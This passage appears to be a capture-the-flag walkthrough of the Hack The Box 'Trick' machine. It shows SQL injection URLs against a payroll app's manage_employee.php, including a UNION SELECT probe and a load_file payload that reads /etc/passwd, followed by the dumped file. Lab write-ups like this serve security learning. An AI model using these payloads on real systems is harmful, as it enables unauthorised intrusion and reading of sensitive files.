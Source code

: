 ```
    });
    function remove_employee(id){
      start_load()
      $.ajax({
        url:'ajax.php?action=delete_employee',
        method:"POST",
        data:{id:id},
        error:err=>console.log(err),
        success:function(resp){
            if(resp == 1){
              alert_toast("Employee's data successfully deleted","success");
                setTimeout(function(){
                location.reload();

              },1000)
            }
          }
      })
    }`
```

At face value this just shows that the page will open some modals/pop-ups, which it does when we click on certain buttons, but the real interest here is that `+$id` parameter that's being added on... Smells like a SQLi opportunity.

Sure enough, after fuzzing it with a few payloads, we can do a union select with it.

```
http://preprod-payroll.trick.htb/manage_employee.php?id=1%20union%20select%201,2,3,4,5,6,7,8
```

This doesn't give us anything, but since we know it's vulnerable we can move on to more fun [like using it for LFI/RFI](https://infosecwriteups.com/sql-injection-with-load-file-and-into-outfile-c62f7d92c4e2):

```
http://preprod-payroll.trick.htb/manage_employee.php?id=1%20union%20select%201,2,load_file(%27/etc/passwd%27),4,5,6,7,8
```

And look at that, we've replaced one of the parts of data returned with the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinsystemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:104:110::/nonexistent:/usr/sbin/nologintss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/falsednsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologinusbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinrtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologinpulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologinspeech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/falseavahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologinsaned:x:112:121::/var/lib/saned:/usr/sbin/nologincolord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologingeoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologinhplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/falseDebian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/falsesystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinmysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/falsesshd:x:118:65534::/run/sshd:/usr/sbin/nologinpostfix:x:119:126::/var/spool/postfix:/usr/sbin/nologinbind:x:120:128::/var/cache/bind:/usr/sbin/nologinmichael:x:1001:1001::/home/michael:/bin/bash
```